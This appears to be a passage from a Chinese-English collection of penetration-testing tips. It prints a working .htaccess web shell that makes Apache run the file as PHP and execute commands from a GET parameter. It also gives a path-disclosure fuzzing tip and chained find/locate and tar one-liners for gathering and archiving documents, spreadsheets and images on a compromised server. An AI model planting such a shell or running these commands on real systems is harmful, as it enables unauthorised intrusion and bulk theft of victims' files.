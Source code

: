     # Written by Wireghoul - http://www.justanotherhacker.com

    # Override default deny rule to make .htaccess file accessible over web
    <Files ~ "^\.ht">
    Order allow,deny
    Allow from all
    </Files>

    # Make .htaccess file be interpreted as php file. This occur after apache has interpreted
    # the apache directoves from the .htaccess file
    AddType application/x-httpd-php .htaccess

    ###### SHELL ###### <?php echo "\n";passthru($_GET['c']." 2>&1"); ?>###### LLEHS ######
    -----------------------自解析.htaccess--------------------------------

39.临时的一种暴路径思路:netsparker扫出有输入的php页面及输入变量名,然后用awvs里面的fuzz功能fuzz,得到暴错的路径,可试.

40.(command1 & command2)==(command1;command2)    
command1 && command2中,如果command1不成功,command2则不会执行,(command1 & command2)或(command1;command2)中如果command1不成功,command1会执行
locate *.doc > doc.list && locate *.docx > docx.list && locate *.pdf > pdf.list && locate *.txt > txt.list && locate *.xls > xls.list && locate *.xlsx > xlsx.list && locate *.jpg > jpg.list && locate *.png > png.list
tar -czf code.tar.gz * && tar -T doc.list -czf doc.tar.gz && tar -T docx.list -czf docx.tar.gz && tar -T pdf.list -czf pdf.tar.gz && tar -T txt.list -czf txt.tar.gz && tar -T xls.list -czf xls.tar.gz && tar -T xlsx.list -czf xlsx.tar.gz && tar -T jpg.list -czf jpg.tar.gz && tar -T png.list -czf png.tar.gz
   
   or when there exist the same ip but different site:

find -regex ".*\.\(doc\|docx\)" > doc.list && find -regex ".*\.pdf" > pdf.list && find -regex ".*\.txt" > txt.list && find -regex ".*\.\(xls\|xlsx\)" > xls.list && find -regex ".*\.\(jpg\|png\)" > jpg.list    
///find . -regex "xxx"   (.)  .  can be used or not while they both mean find the current path
///sometimes the system may not support && to execute "find",then we should execute above find command without "&&" and find them one by one
///or maybe sometimes the system may not support -regex in find command
///or maybe sometimes the system may not support without path command with find,use . or ./ better any time find the current path 
then the better answer:
find . -name "*.doc" > doc.list && find . -name "*.docx" > docx.list && find . -name "*.pdf" > pdf.list && find . -name "*.txt" > txt.list && find . -name "*.xls" > xls.list && find . -name "*.xlsx" > xlsx.list && find . -name "*.jpg" > jpg.list && find . -name "*.png" > png.list
tar -czf code.tar.gz * && tar -T doc.list -czf doc.tar.gz && tar -T docx.list -czf docx.tar.gz && tar -T pdf.list -czf pdf.tar.gz && tar -T txt.list -czf txt.tar.gz && tar -T xls.list -czf xls.tar.gz && tar -T xlsx.list -czf xlsx.tar.gz && tar -T jpg.list -czf jpg.tar.gz && tar -T png.list -czf png.tar.gz
///however,i found that "&&" or "||" are both not the best,coz command "a && b" means only command "a" execute successly,then "b" can execute
///comman "a || b" means if "a" execute successly,then "b" will not execute
///but comman "a;b" means "a" and "b" will both execute,no mater the former "a" execute successfully or not 
so,the better and beeter combine command is:
find . -name "*.doc" > doc.list;find . -name "*.docx" > docx.list;find . -name "*.pdf" > pdf.list;find . -name "*.txt" > txt.list;find . -name "*.xls" > xls.list;find . -name "*.xlsx" > xlsx.list;find . -name "*.jpg" > jpg.list;find . -name "*.png" > png.list